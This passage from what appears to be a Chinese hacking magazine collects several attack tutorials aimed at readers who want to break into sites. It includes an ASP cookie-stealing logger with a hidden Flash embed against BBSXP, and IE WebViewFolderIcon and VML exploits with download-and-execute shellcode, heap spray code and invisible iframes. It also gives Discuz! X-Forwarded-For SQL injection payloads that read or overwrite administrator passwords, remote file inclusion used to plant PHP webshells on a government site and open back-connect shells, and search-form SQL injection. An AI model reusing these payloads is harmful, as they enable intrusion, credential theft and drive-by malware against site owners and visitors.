主要利用了可在网页中引入不同域 JavaScript 代码，并与页面融合的特点。`ck.asp` 的代码如下：

```asp
<%
  dim file,cookie
  file="cookie_"&now&".txt"
  file=replace(replace(replace(file,":","_")," ","_"),"/","_")
  testfile=Server.MapPath(file)
  cookies=unescape(request.servervariables("query_string"))
  set fs=server.CreateObject("scripting.filesystemobject")
  set thisfile=fs.openTextFile(testfile,8,true,0)
  thisfile.WriteLine(cookies)
  thisfile.close
  set fs=nothing
%>
```

这里通过 `request.servervariables("query_string")` 接收参数，并按时间生成 txt 文件保存 Cookie。制作 Flash 时关键函数包括 `getURL()` 与 `stop()`，若不 `stop`，Flash 会持续运行。

在内容中插入如下代码：`<EMBED src=http://127.0.0.1/ck.swf width=0 height=0 ShowStatusBar="true" AUTOSTART="true">`，其中 ck.swf 为用于偷取 Cookie 的 Flash 文件。

发表成功后再次浏览，可在网站目录看到 `cookie_2006_8_18_14_04_24.txt` 一类文件，文件内容即 Cookie。

分析可见 UserID 和 Userpass 很有价值；复制 Cookie 到“老兵浏览器”的 Cookie 栏后，可以成功登录论坛（图7）。

管理员看到帖子后，前台 Cookie 可被利用；但后台使用 Session 校验，仍有额外限制。后台管理页验证代码如下：

```asp
if SiteSettings("AdminPassword")<>session("pass") then
  response.redirect "Admin_Default.asp?menu=login"
end if
```

由于采用 Session 验证，单纯 Cookie 欺骗无法直接进入后台；BBSXP 后台较前台更严格，管理员功能不能仅靠跨站直接获取。

## 黑客研究院

我们注意一个地方，在后台→“论坛管理”内有一审查区，如图8。

由于审查区没有编辑帖子功能，管理员是删除我们的帖子呢，还是通过审查？总要给个理由吧。所以，我们亲爱的管理员同意首先点击去看我们的帖子，看看内容是什么，然后再作出决定。当他点击我们帖子的瞬间，我们也就取得了他的 Cookie，如图9。这次仔细看好了，`Userpass=4607E782C4D86FD5364D7E4508BB10D9` 就是管理员的后台密码，不过是 32 位加密的，接下来就是放到 cmd5 等类似的网站上进行破解了。在得到管理员后台密码之后，我们就可以按照前面介绍的后台取 WebShell 的方法上传 ASP 木马了。后来，我们用这种漏洞检测了官方网站，发现同样存在 Cookie 欺骗和跨站问题。BBSXP 7.0 相对于以前版本已经安全很多了，但是程序员在写论坛代码时，居然没有意识到关于 Cookie 的问题，最终导致了论坛出现漏洞。解决此漏洞非常简单，我们只要改为 Session 验证就可以了。

## 左手 IE，右手 IE

深秋的 IE 漏洞双响炮

摩诃

深秋，北京香山上的枫叶还未见红，可微软最新的 IE 漏洞却又提前“红”了起来。今天我就给大家测试一下 IE 最新的两个漏洞——Microsoft IE WebViewFolderIcon（setSlice）溢出和 Microsoft IE VML 远程缓冲区溢出。

- 1. 我只是测试了这两个漏洞的利用，但并未对它们的利用进行深入研究，大家可以自由发挥！
- 2. 关于漏洞的利用，我就不配置木马了，只用我自己练习 Windows 编程时写的小程序来代替。
- 3. 所有漏洞的利用程序都是我自己编译和改造的，代码是从网上下载的，所有利用程序的 shellcode 功能都是 Download & Exec（下载并执行文件）。
- 4. 包括 VC、Perl 编译、替换 shellcode、加密 shellcode 等，我会在最后单独拿出来进行详细说明，大家不要着急。

## Microsoft IE-WebViewFolderIcon 远程整数溢出漏洞

### 一、漏洞描述及代码

IE 在处理畸形的 ActiveX 对象调用方式时存在整数溢出漏洞，远程攻击者可以利用此漏洞导致浏览器崩溃或执行任意命令。如果攻击者能够向 WebViewFolderIcon 控件的 setSlice 方法传送 `0x7fffffff` 参数的话，可能导致浏览器崩溃或执行任意命令。这个漏洞在网上可以找到 C 语言版、Perl 语言版和 HTML 语言版，测试时我使用的是 Perl 版。

### 二、测试与利用

先测试一下 C 语言版的利用程序，我编译的名为 `iewvf.exe`。在 CMD 下我们键入程序名，会出现利用程序的命令格式 `iewvf <URL> [htmlfile]`。其中 URL 为要下载并执行的文件，htmlfile 是要生成的 html 文件，就是要骗别人访问的页面。完整的命令为 `iewvf http://cmwl.go.idhost.cn/hello.exe testExploit.html`（图1），回车后显示的是 Unicode shellcode，并提示生成 html 文件成功（Unicode shellcode 就是将 shellcode 转换成 Unicode 编码的形式，如图2），此时就会在 iewvf.exe 同目录下生成一个名为 testExploit.html 的网页文件（图3）。而 Perl 语言版漏洞利用程序的使用也是非常简单的，只要直接在 CMD 下运行“perl 溢出程序.pl”就会生成 html 文件，效果是一样的（注意，我们需要先安装 ActivePerl）。我们使用腾讯 TT 或 IE 打开生成的 html 文件就会从 cmwl.go.idhost.cn 网站下载并执行 hello.exe 程序了。

我们在实际的应用过程中，把生成的 html 文件和配置好的木马一起上传到自己的空间上（图4）就可以等着别人来访问了。事实上，我们可以将这种攻击方式理解成“钓鱼式攻击”。可能菜鸟们会抱怨没有自己的 ASP 空间，在此我提供一个，www.idhost.cn，大家去注册吧，实时就可以通过验证（现在知道 X 档案的菜鸟家园栏目中公布的那些免费空间的作用了吧）。

不过，要是直接访问这个网页文件的话，因为是空白的，很容易让访问者怀疑，所以，我们可以将`<iframe src=http://cmwl.go.idhost.cn/exploit.html width=0 height=0></iframe>`这句代码加入到网站首页中（图5），位置随便，这样当对方访问首页的时候，我们插入的 exploit.html 就会被悄悄地打开了，因为长和宽设置的都是 0，因此，访问者是很难发觉的。

> 注意：经过我的测试，C 语言版利用程序生成的 html 文件的溢出成功率比 Perl 语言版生成的 html 文件要低很多，因此建议大家使用 Perl 语言版的。

## Microsoft IE 畸形 VML 文档处理缓冲区溢出漏洞

### 一、漏洞描述与代码

IE 在处理畸形 VML 文档时存在缓冲区溢出漏洞，远程攻击者可以利用此漏洞在用户电脑上执行任意命令。微软的矢量图形渲染库（vgx.dll）的“_IE5_SHADETYPE_TEXT::Flex”过程中处理矢量标记语言（VML）文档中的某些内容时存在栈溢出漏洞，如果用户使用 IE 浏览器浏览了“rect”标签中包含有超长“fill”方式的恶意 VML 文档的话，就会触发这个溢出，导致执行任意命令。该漏洞针对 WinXP SP2 系统的代码只有 Perl 语言版和 HTML 版的。

### 二、测试与利用

我们在 CMD 下使用“perl 溢出程序.pl”或直接修改 HTML 版的内容然后直接保存，都会生成 exploit.html。这和上面那个漏洞的利用方式很相似，都是将生成的 html 文件与自己配置好的木马一起传到网上，再将 `<iframe src=http://www.****.com.cn/利用程序生成的HTML文件.html width=0 height=0></iframe>` 这句插入到首页文件中。生成的 exploit.html 文件的作用就是触发漏洞，并下载执行我们的木马。HTML 版漏洞利用代码的溢出成功率很高，建议大家使用，对于 HTML 版 shellcode 的替换我会在后面说明。

## 编译 & DIY shellcode

### 一、什么叫 shellcode

说得通俗点，就是我们溢出成功后，想在被溢出主机上执行的指令，形如“\xEB\x54\x8B\x75\x3C\x8B\x74”这样的东西，就是机器码，也就是一组 CPU 指令。上边介绍的这两个漏洞利用程序的 shellcode 的功能都是下载并执行文件，也就是说成功溢出的话，会下载并执行我们指定的文件。现在大家应该明白 `iewvf.exe http://cmwl.go.idhost.cn/hello.exe testExploit.html` 是什么意思了吧！

### 二、编译

- 1. VC 利用程序的编译：运行 VC++6.0，选择 文件→新建→“文件标签”（图6），选择其中的“C++ Source File”，文件名可自定义，注意使用 `.c` 而非 `.cpp`，随后进行编译设置。
- 2. Perl 利用程序的编译：我们先要安装一个叫做 ActivePerl 的 Perl 语言编译工具，然后将 Perl 语言版漏洞利用程序的源代码通过记事本保存为 `.pl` 后缀文件，这样 `.pl` 文件就会变成这样（图9），通常双击即可执行。
- 3. HTML 利用程序的编译：这个根本用不到编译，大家只要修改 HTML 版利用程序中的 shellcode 再保存就 OK 了。

### 三、Unicode shellcode

目前很多溢出程序对 ShellCode 都有特定要求：一类是长度受限，另一类是不能出现某些特殊字符（如 `0x5c`、大写字母、`0x2E`、`0x2F` 等），否则可能导致服务中断或溢出失败。文中介绍了通过指令替换与编码方式规避限制，并将 shellcode 进行 Unicode 编码（如 `%u****` 形式），再通过 JavaScript 的 `unescape` 函数解码传输。

```html
<script language="javascript">
  var heapSprayToAddress = 0x05050505;
  var payloadCode = unescape("...");
  var heapBlockSize = 0x400000;
  var payLoadSize = payloadCode.length * 2;
  var spraySlideSize = heapBlockSize - (payLoadSize + 0x38);
  var spraySlide = unescape("%u9090%u9090");
  spraySlide = getSpraySlide(spraySlide, spraySlideSize);
  ...
</script>
```

各位读者朋友可以打开以上两个漏洞利用程序生成的 html 文件，会发现其中都有 `unescape` 函数，将经过 Unicode 编码的 shellcode 作为参数进行解码。

### 四、DIY shellcode

#### 1. Perl 语言版利用程序的改造

我们以 IE WebViewFolderIcon 远程整数溢出漏洞 Perl 语言版利用程序为例。源码中的变量 `sco` 即 shellcode。最后一行是下载并执行文件的 URL，可替换为木马地址；`convert_sco` 函数用于将 shellcode 转成 Unicode 编码，修改后保存并重新编译即可完成改造。

```perl
use strict;
my $sco =
"\xEB\x54\xBB..." .
"http://cml.go.idhost.cn/hello.exe";
```

```perl
sub convert_sco {
  my $data = shift;
  my $mode = shift() || 'LE';
  my $code = '';
  ...
  return $code;
}
```

```text
[+] exploit file:testExploit.html
%u56e1%u75b1%u813c...
[+] exploit write to testExploit.html success
```

```javascript
<SCRIPT language="javascript">
  var heapSprayToAddress = 0x05050505;
  var payloadCode = unescape("%u5beb%u7585...");
  ...
</SCRIPT>
```

用程序生成 html 文件时，利用程序会在屏幕上显示出经过编码的 shellcode（图13），这就是下载并执行 `http://cnwl.go.idhost.cn/hello.exe` 的 Unicode shellcode，我们把它复制下来，并替换 html 文件中 unescape 函数的参数（图14），这样我们就完成对 shellcode 的替换了。

再来测试一下，是不是已经 OK 了。

- 3. 如果还想换成功能的 shellcode，可能要对主程序进行大量的修改，这可能会涉及很多问题，如该漏洞对 shellcode 长度是否有限制、通用性等。

其实，我也是个菜鸟，DIY shellcode 只是巧妙地调换了一下 shellcode，没有太深奥的东西。思路上就跟 Metasploit Framework 这个软件一样，选定一个 exploit 之后，可以选择不同 shellcode 进行组合。文章写到这里就结束了，不过我还在继续研究，希望可以更换一个添加用户的 shellcode。不过不断努力地学习才是最重要的。

（文中涉及到的两个 IE 漏洞的利用源代码以及 ActivePerl 已经收录于光盘中）

#### 2. HTML 版利用程序的改造

我们以 IE VML 漏洞 HTML 版利用代码为例，运行最初从网上下载的 IE VML 漏洞利用代码时，shellcode 完成的功能是打开 Windows 自带的计算器程序，这可不行，我们要对 shellcode 进行修改。如果想替换里面的 shellcode，就要将相应的 shellcode 进行 Unicode 编码，这可怎么办呢？

我们想一下，在用 IE WebViewFolderIcon 漏洞 C 语言版利用程序生成 html 文件时……

zj1244

在上期杂志里将 Discuz! 论坛的漏洞利用工具发布后，不少朋友通过 QQ 告诉我说，他们对于如何查找到该漏洞的过程非常有兴趣，因此我决定把当时测试的整个过程简单地记录给大家。当读者朋友有了一定的 PHP + MySQL 基础后，也可以尝试着自己去挖掘别的程序的漏洞，这是一件很有意思的事情。

首先，根据 Discuz! 官方发布的公告我们知道漏洞的形成原因是《PHP5 GPC 绕过缺陷》里提到的 `$_SERVER` 变量没有得到足够的保护，因此首先要去阅读学习那篇文章，得到以下重要信息：

在看一个文件的时候，如果它的头部包含了其它的页面，那么被包含的页面里的代码会先执行，出漏洞的代码很可能藏在那些页面里。在第 73 行左右，我们看到了一段验证 IP 地址的代码：

```php
if(getenv('HTTP_CLIENT_IP') && strcasecmp(getenv('HTTP_CLIENT_IP'),'unknown')) {
    $onlineip = getenv('HTTP_CLIENT_IP');
} elseif(getenv('HTTP_X_FORWARDED_FOR') &&
         strcasecmp(getenv('HTTP_X_FORWARDED_FOR'),'unknown')) {
    $onlineip = getenv('HTTP_X_FORWARDED_FOR');
}
```

| 变量 | 说明 |
|---|---|
| QUERY_STRING | 用户 GET 方法提交的查询字符串 |
| HTTP_REFERER | 来源页面信息 |
| HTTP_USER_AGENT | 用户浏览器类型 |
| HTTP_HOST | 请求目标主机头内容 |
| HTTP_X_FORWARDED_FOR | 用户真实 IP 相关信息 |

只有这里有获取 HTTP_X_FORWARDED_FOR 数据的代码，但是获取的方式并非《PHP5 GPC 绕过缺陷》中提到的“`$_SERVER`”，通过百度找到了答案：“`$_SERVER`”和“`getenv`”的效果基本上是等同的。

上边代码中的 `onlineip` 变量获取了 HTTP_X_FORWARDED_FOR 的值后，在第 122 行被带入了 SQL 语句里：

上述内容我们在提交数据包时是可以自己修改的，最初欠缺的思路是去搜索所有代码里有“`$_SERVER`”字符串的代码，然后分析里面是否有涉及到上述内容并提交到 SQL 语句里执行。不过后来出现的 Python 版利用工具减轻了我们不少的工作量。

简单看了下代码（虽然没特意学过 Python 语言，可是至少一些定义变量什么的还能看明白）：`query = '\\' union select 122, 122 from cdb_members......'`，这里是 Union 联合查询语句，在 MySQL 注入时经常用到的，所以关键就是看这个 `query` 变量插入到了什么地方。搜索 `query` 字符串，找到了以下代码：`'X-Forwarded-For':query`，这说明注入发生在 HTTP 协议数据包的 “X-Forwarded-For” 字段中，而根据 `http.request("POST", path + "logging.php?action=login&", data, header)` 这句代码我们知道注入的位置可以是 `logging.php`。

现在情况就说明明了，打开 `logging.php` 及其包含的页面，搜索“`$_SERVER`”的同时留心“X-Forwarded-For”类的字符串，结果很快就找到了 `common.inc.php` 中的相关代码（之前欠缺）：

```php
if($sid) {
    if($discuz_uid) {
        $query = $db->query("SELECT ... FROM {$tablepre}sessions ...
            WHERE m.uid=s.uid AND s.sid='$sid'
            AND CONCAT_WS('.',s.ip1,s.ip2,s.ip3,s.ip4)='$onlineip' ...");
    } else {
        $query = $db->query("SELECT ... FROM {$tablepre}sessions
            WHERE sid='$sid' AND CONCAT_WS('.',ip1,ip2,ip3,ip4)='$onlineip'");
    }
}
```

为了确认是不是这个 `onlineip` 变量的问题，我们可以在第 73 行判断完 IP 地址后，加入下边这一句 `echo $onlineip;` …

## 黑客研究院

序执行到该处时打印出 `onlineip` 的值，然后我们构造如下 HTTP 数据包：

```http
GET /DiscuzSCUTF8/4.0/upload/include/common.inc.php HTTP/1.1
Accept: */*
Accept-Language: zh-cn
Accept-Encoding: gzip, deflate
User-Agent: Mozilla/4.0 (compatible; MSIE 6.0; Windows NT 5.1; SV1)
Host: 211.***.70:8090
Connection: Keep-Alive
X-Forwarded-For: "Test"
Cookie: ...
```

将其保存为 `1.txt`，然后使用 nc 向服务器提交这个 txt 文件：`NC.exe -vv 211.111.240.70 8090 <1.txt`。返回信息如图1所示。


没有返回预想的数据，而是返回了我的真实 IP。回过头分析判断 IP 的流程，如果 `HTTP_CLIENT_IP` 的值不为空且不是 `unknown`，就把 `HTTP_CLIENT_IP` 赋给 `$onlineip`，否则取 `HTTP_X_FORWARDED_FOR` 的值赋给 `$onlineip`。

> 小知识：`HTTP_X_FORWARDED_FOR` 是使用代理时常见的头字段，常用于记录真实来源 IP；该值可能被客户端伪造。

不过分析是分析，程序执行结果却并非我们想象的那样。随后测试不同环境，发现与服务器系统及 Web 服务软件有关；在 Windows + Apache 环境下复现成功。


成功地看到返回的信息里出现了我们故意构造在 `X-Forwarded-For` 后的数据，如图2。

真相大白，原来 IIS 不支持 `getenv`，所以只有在 Apache 架设的 PHP 环境下才能够任意提交 `$onlineip` 变量进行注入。这里给出两种典型注入方法。

### 1. UNION 查询指定用户的密码

```sql
union select 122,122,122,122,122,122,122 from cdb_members where uid=1
AND substring(password,1,1)='A'/*
```

这是查询 uid 为 1 的用户密码第一位是否为 A。由于取值范围可枚举，可通过集合猜测或二分法较快完成密码推断。

### 2. update 直接修改指定用户的密码

```php
$cdb->query("UPDATE {$tablepre}members
SET lastip='$onlineip', lastvisit=lastactivity,
lastactivity='$timestamp'$otimeadd WHERE uid='$discuz_uid'", 'UNBUFFERED');
```

可将 `$onlineip` 的提交构造为：`,password='XXXXXXXXXXXXXXX' where uid=1 /*`，从而把 uid=1 的用户密码改为指定 MD5 值。文中并讨论了补丁限制与后续安全建议。

> 跟您敲键盘评：关于文章写作、漏洞分析思路与工具使用的编者按/读者反馈。


## 骇客与我会玩：远程文件包含漏洞


在第10期和第11期的黑客X档案上，我们都介绍了远程文件包含漏洞的利用。事实上，利用远程文件包含漏洞来入侵网站是目前使用较为普遍的一种方式。简单说，远程文件包含漏洞通常源于 PHP 文件对参数过滤不严，未正确区分本地与远程主机文件，攻击者可提交远程文件路径并触发执行；若该文件中包含恶意代码（如 php 木马），便可能以 Web 权限被执行。

远程文件包含漏洞的利用过程通常为：先根据公开漏洞资料与 Google 搜索语法定位可能存在漏洞的站点，再构造包含恶意代码文件或 php 木马进行测试。若测试成功，可进一步上传木马获取 webshell，并尝试提权、安装后门或 rootkit 等。

### 一、搜索及测试远程文件包含漏洞

我们以 Net_DNS <= 0.3（DNS/RR.php）远程文件包含漏洞为例说明利用过程。示例形式如：`http://目标网站/Net_DNS_PATH/DNS/RR.php?phpdns_basedir=http://自己的网站/shell.txt?`。首先可在 Google 中使用 `inurl:/DNS/RR.php` 等关键词检索目标。


接下来进行测试，例如对搜索到的目标站点按公开示例构造提交：`http://www.****.gov.my/lampp/lib/php/Net/DNS/RR.php?phpdns_basedir=http://www.sagi.net.cn/test.txt?`。若返回结果列出当前目录文件，说明目标可能存在该远程包含漏洞，且测试文件中的代码已被执行。

`http://www.sagi.net.cn/test.txt` 是用于测试的文本文件，内容类似 `<?passthru("ls");?>`，即利用 `passthru` 执行系统命令。


文中提到可利用免费空间存放黑客工具并协助入侵。注意上传后需确认网站正确解析对应代码，否则文件中的代码可能无法执行，因此常将文件伪装为 `.txt` 甚至 `.jpg` 扩展名进行尝试。

> **关键词解释：**
- `ls`：Linux 下常用列目录命令（类似 Windows 下的 `dir`）。
- `passthru`：PHP 函数，用于执行系统命令。
- 常见测试代码如：`<?phpinfo();?>`。

测试时也可直接使用 php 木马进行验证，例如重新提交：`http://www.****.gov.my/lampp/lib/php/Net/DNS/RR.php?phpdns_basedir=http://www.sagi.net.cn/php.txt?`，即可观察木马执行效果。


来仔细看看 php 木马获取的系统信息，这对我们下一步的入侵是很有帮助的。

从 php 木马获取的信息我们可以知道对方使用的操作系统为 Linux，其系统内核为 `2.4.21-15.elsmp`，在 Google 里搜索这个内核版本信息，就会知道对方使用的操作系统为 RedHat Enterprise Linux AS3。另外，对方系统使用的 Apache、PHP、OpenSSL、Perl 等版本信息也详细地显示了出来。从 id 那一行中我们可以得知自己当前的用户身份为 nobody，所属的组也是 nobody，而我们当前的目录为 `/opt/lampp/htdocs/lampp/lib/php/Net/DNS`，但是该目录属于 root 用户，其权限也是 `rwxrwxr-x`，也就是说除了 root 用户及 root 组用户外，我们是没有权限在当前目录中写入文件的，也就是说直接在这个目录里上传 php 木马是不行的。

> **小提示：关于 UNIX/Linux 的权限**  
> 在 UNIX/Linux 系统中，目录及文件的权限分为所有者权限（属主权限）、同组用户权限、其它组用户权限。而每一组权限又分为 r 读、w 写、x 执行。比如上边的 `rwxrwxr-x`，第一个 `rwx` 表示文件及目录的所有者的权限为读、写、执行，第二个 `rwx` 表示同组用户的权限为读、写、执行，第三个 `r-x` 表示其它组用户的权限为读和执行。

### 二、寻找有写权限的目录

接下来，就是寻找有权限写入的目录了。在 php 木马的“Run command”（运行命令）栏中输入 `ls -la /opt/lampp/htdocs/lampp/lib/php/Net/`，然后点击后边的“Execute”（执行），从当前目录的上一级目录开始搜索。在 `/opt/lampp/htdocs/` 目录下找到了许多属于 nobody 用户的目录，比如 `security-blok`、`security-logon`、`updates` 等，其权限为 `rwxr-xr-x`，也就是属主 nobody 用户有读、写和执行的权限，我们可以将 php 木马上传到这些目录下。另外，对于诸如 `puspanita`、`puu`、`simpi`、`webmaster` 这类虽然属于 root 用户所有，但权限却是 `rwxrwxrwx` 的目录，我们也是有权限来上传 php 木马的，如图4。


### 三、上传 php 木马，获取 webshell

在 php 木马中找到“Upload files on server”（往服务器上上传文件）这项，在“Local file”那一栏选择我们要上传的 php 木马，而下边“New name”那一栏，我选择了上传的目录为 `/opt/lampp/htdocs/cgi/`，然后点击后边的“Upload”就可以了，如图5。

倘若我们直接上传不成功的话，还可以选择使用 wget 的方式来进行上传。找到 php 木马的“Upload files from remote server”（从远程服务器上传文件）这项，在“Remote file”（远程文件）栏中输入 `http://www.sagi.net.cn/php.txt`，也就是我们想要上传的文件，在“Local file”（本地文件）栏中输入 `/opt/lampp/htdocs/cgi/php.txt`（也可以直接改成 `php.php`），也就是我们要保存在对方服务器上的文件，点击后边的“Upload”上传就可以了，如图6。

上传成功了，`php.txt` 已经在对方的 `/opt/lampp/htdocs/cgi/` 目录下了，其默认上传后的权限为 `rw-r--r--`。如果是 `.php` 扩展名的话，就可以直接访问了，只可惜是 `txt` 的，因此还得将这个 `txt` 文件改为 `.php` 文件。在改名前，注意一下这个 `php.txt` 文件，因为它默认并没有 x 执行权限，因此我们要想给它改名的话，还得先使用 `chmod` 命令给它设置可执行权限。在运行命令栏中输入 `chmod 777 /opt/lampp/htdocs/cgi/php.txt` 命令，然后执行，就会将 `rwxrwxrwx` 权限赋给 `php.txt` 文件了，如图7。

当我接下来运行 `rename` 命令将 `php.txt` 改为 `php.php` 时，却没有成功，只好运行 `rename /opt/lampp/htdocs/cgi/php.txt /opt/lampp/htdocs/gov/php.php`，将 `php.txt` 改名复制成 `gov` 目录下的 `php.php` 文件，如图8。来访问一下：`http://www.*****.gov.my/gov/php.php`，php 木马终于 OK 了，如图9。


### 四、关于获取 root 权限的提示

如果我们想进一步地得到对方系统的 root 权限的话，可以运行 php 木马最下方的 “Bind port to /bin/bash” 或是 “back-connect” 来尝试得到对方系统的 shell（类似 Windows 下的 cmd shell 的那种命令执行环境），如图10。然后配合上传上去的本地溢出程序，编译执行，如果溢出成功的话，就会获取对方系统的 root 权限。不过，并非每一个网站都可以成功得到对方的 shell，即使是使用反弹连接方式也不一定每次都会成功（比如对方有防火墙，或是因为网络原因）。

### 五、远程包含通用利用工具的使用

对于远程包含漏洞，除了手工的检测方式外，也可以利用一些工具来进行，`r-include2` 就是我改写的一个工具，其使用格式为 `r-include2 检测网站 远程包含的文件 shell文件 -r`。如果省略 shell 文件的话，默认将会使用个人站点上的 `http://www.sag1.net.cn/cmd.txt` 这个文件，如图11。我们还是以上边的那个网站为例，具体的使用格式就是 `r-include2 www.*****.gov.my /lampp/.../lib/php/Net/DNS/RR.php??phpdns_basedir -r`，在“cmd]$”提示符后输入我们想要执行的命令就可以了，图12。虽然事实上它并不是一个真正的 shell 环境，但对于习惯了入侵 UNIX/Linux 的黑客来说，却更容易接受这种命令执行环境。


图12

相信各位读者在看了本文后，结合前两期中的远程包含漏洞的文章，都会轻易地掌握这种漏洞的利用方式。远程文件包含漏洞针对的基本上都是 UNIX/Linux 系统（Windows 系统只占少数），因此，倘若大家想更好地掌握远程文件包含漏洞的利用，比如一些命令的使用、如何进行本地溢出，甚至是如何安装 rootkit、如何制作后门等，就必须先掌握 UNIX/Linux 系统的一些基础知识了。在此小编们推荐给 X 档案出版的《黑客 Linux 入门》一书，相信大家会从中找到自己想要的知识！

> ### 职业欠钱读后感：
> 最近有读者兄弟喜欢 sagi 的文章，可见 sagi 写得不错。现在 sagi 终于走出了门槛。此文就是目前国内较流行的远程文件包含漏洞分析和 Linux 下的利用全过程。这对于菜鸟来说绝对是不可多得的一套好文，就是需要大家有一定的 Linux 基础，而且搜索存在漏洞的站点非常辛苦，可能要很长时间才能找到一个。前段小编给大家推荐一个网站：`www.milw0rm.com`，虽然是英文的，可是上面公布的很多都是各种 web 程序的远程文件包含漏洞，用来练手是很棒的！

（文章中涉及到的 `r-include2` 已收录到光盘）

## 寻找“隐藏”的搜索型注入点

Zero_cold

还有半年就要毕业了。该开始考虑工作的事情了，于是我开始到人才网上查找一些招聘信息。出于习惯，每打开一个人才网我都会给它们做个安全检测。在我所检测过的人才网中，我发现相当多的网站都过滤掉了普通的注入漏洞，但是却都存在着搜索型的注入漏洞，或许是因为这种漏洞相对来说比较隐蔽吧，下面就来看看要如何找出它们吧！

通常人才网都存在搜索功能，我们可以输入关键字来搜索相关的信息。源程序里的部分匹配 SQL 语句一般是这样写的：

```sql
Select 相应的字段 from [表名] where 搜索条件 Like '%key-word（关键字）%';
```

这就是所谓的模糊查询。为了更精确的查询，有时候 SQL 语句还可以写成完全匹配模式，不过道理是一样的。如果 keyword（关键字）没有进行过滤的话，那我们就可以在搜索框中输入这样的语句来查询，如 `计算机%' and 1=1 and '%'='%'`。此时查询语句变成了：

```sql
Select 相应的字段 from table_name where name Like '%计算机%' and '1'='1 and '%'='%';
```

这样就会搜索出大批和计算机相关的职位。如果把其中的“1=1”改为“1=2”，再查询返回页面是空白的，说明关键字没有过滤，注入点被找到了。

我们知道，在这种输入框里查询数据提交的信息是通过 Form（表单）来传输的，Form 中的数据传输过程可以对应 HTTP 协议中的 GET 和 POST 两种方法。

### 理论恶补：

GET 方法保存在 Request 的 QueryString 集合中。很多朋友都明白 GET 是 ASP 里传输数据的默认方法，但这个方法并不是最好的。因为在传输时，数据被放在请求的 URL 里，很多服务器、代理服务器或者用户代理都会将请求 URL 记录到日志文件里，那么一些隐私的信息就很可能会被第三方看到。另外，用户也可以在浏览器上直接看到提交的数据，这就方便了用户直接手工修改这些数据（特别是方便了黑客使用工具来进行注入）。

```http
http://www.baidu.com/s?wd=黑客X档案&cl=3
```

通过“?”、“&”将多个变量和值连接在一起。这个 URL 里，搜索关键词 wd 为“黑客X档案”，而 cl 的值为 3。

POST 方法提交的数据保存在 Request 中的 Form 集合中，这种方法提交的数据在地址栏中看不见。它将表单中的数据放在 Form 的数据体中，按照变量和值相对应的方式传递到 action 所指向的 URL。由于 POST 的这种提交数据特性，这种注入相对 GET 方法来说隐藏了变量，所以我们查找起来也不是很容易发现，于是很多人都忽略了它的安全，这也就是所谓的“隐藏的搜索型注入点”。

> ### 小总结：
> 在测试搜索型注入的时候，输入 **任意关键词' and '1%'='1** 和 **任意关键词' and '1%'='2**，如果返回的页面明显不同，就可以证明搜索型注入漏洞存在。

有时候虽然可以使用手工方法判断出这种漏洞，遇到 Access 数据库表名和字段猜不对就不用说了，而 SQL Server 数据库遇到 IIS 错误提示关闭的话，用手工简直是一种折磨。这么累的事情当然是要工具来完成了，我们只需要自己动手来查找出隐藏变量并赋给正确的值，并正确构造出注入 URL，剩余的就可以交给工具了（构造正确的 URL 是注入成败的关键所在）。

随便选择一个人才网，在职位关键字里输入 `计算机%' and 1=1 and '%'='%'`，所有符合条件的相关职位都出来了；再把“1=1”换成“1=2”，显示的是空白页面……

采用 POST 提交的方式，只能自己找出其中的变量并赋上相应的值。然后把值手动变成这样的形式：`http://www.xxx.com/query.asp?Value1=内容&Value2=内容&KeyWord=计算机`。这样才能把该地址填到注入工具的地址栏里，让工具替我们工作。变量少的话可以通过查看源代码的方式查找出来，但对于变量非常多的情况，我们还是只能自己手动抓包来实现（这样的话才不会发生遗漏变量，导致查询条件不足、结果不正确的情况发生）。


打开 WSockExpert，单击工具条里的“打开进程”按钮，会出现一个进程列表，选择该人才网的 IE 进程，点“打开”就可以监视我们提交的数据了，如图1。选中 POST 抓取的数据，如图2。


不用查看源文件，所有的变量都出现了，“计算机”经过 URL 编码变成了`%BC%C6%CB%E3%BB%FA`，其中的“PosiKey=%BC%C6%CB%E3%BB%FA”就是“PosiKey=计算机”。根据上面提到的 GET 提交的方法，把 URL 手工修改成完整查询串后即可用于注入测试。

```text
http://www.xxx.com/query.asp?Industry=%D0%D0%D2%B5%B2%BB%CF%DE&DateTime=%CA%B1%BC%E4%B2%BB%CF%DE&Province=%B5%D8%C7%F8%B2%BB%CF%DE&City=%B5%D8%C7%F8%B2%BB%CF%DE&EduLevel=%D1%A7%C0%FA%B2%BB%CF%DE&Sex=%D0%D4%B1%F0%B2%BB%CF%DE&CompKey=&x=0&y=0&PosiKey=计算机
```


这个时候要注意了，由于注入工具判断注入漏洞的方法是只检测最后一个变量，因此你要把查询的关键字（这里是“PosiKey=计算机”）放在 URL 的最后面才可以检测出来。以上面的网址为例，简化掉一些不必要的变量后，如果构造为`...&PosiKey=计算机`则可以检出漏洞；如果把`PosiKey`放到中间位置则可能被忽略。用同样的方法我们再来测试一下河南毕业生人才网，如图4。


JavaScript 限制了提交字符的长度，这也是不安全的，因为这些脚本在客户端是可以控制的，我们可以轻松地绕过去继续注入。OK，上面所说的情况一般都是在表单允许我们进行输入的情况下进行的。但测试过程中我发现并不是每一个站点都允许我们在表单里输入查询的关键字，比如你只能通过下拉框或者选择表单来提交指定的条件。表面上看这样就不存在问题了，但实际上这些地方也是存在注入漏洞的。

如何找出隐藏的变量来判断是否存在这样的搜索型注入呢？方法还是一样。使用 WSockExpert 监视提交页面，用 URLEncode 转换工具把你选择的关键字转换成 URI 编码，然后和你用 WSockExpert 抓取的结果进行比较，相同的就是查询的关键字符串了，余下来的事情就可以交给工具了。存在这种漏洞的网站不单是人才网，基本上存在搜索的地方我们都可以检测一下。

在我使用 WSockExpert 抓包的时候发现存在着一个问题：如果数据过多的话，后面的数据就会覆盖前面的数据，致使我们抓取不到 POST 提交的数据。这种情况下我们使用 EfteTech HTTP Sniffer 来抓取就可以完美地解决了。对于 PHP 程序来说，由于`php.ini`中有一个非常重要的配置选项`magic_quotes_gpc`，在较早期 PHP 版本中默认配置为 Off。当 GPC 为 On 时，我们提交的`'`会被 PHP 自动转义成`\'`。对于字符型的注入来说，这点是致命的，注入也就失去了价值。

对于这种类型漏洞的修补，一般是把提交的单引号过滤掉或替换成双引号（使用 replace 函数过滤）就较安全了。令人欣慰的是这一点上有的人才网做得非常好。从客户端提交数据到数据库查询一定要过滤再过滤，即使是隐藏的变量，否则该漏洞被人发现并利用只是时间问题，脚本安全来不得半点侥幸心理。（文中涉及到的 WSockExpert、NBSI、HDSI、URLEncode 转换工具已收录到光盘。）

### 小编点评：

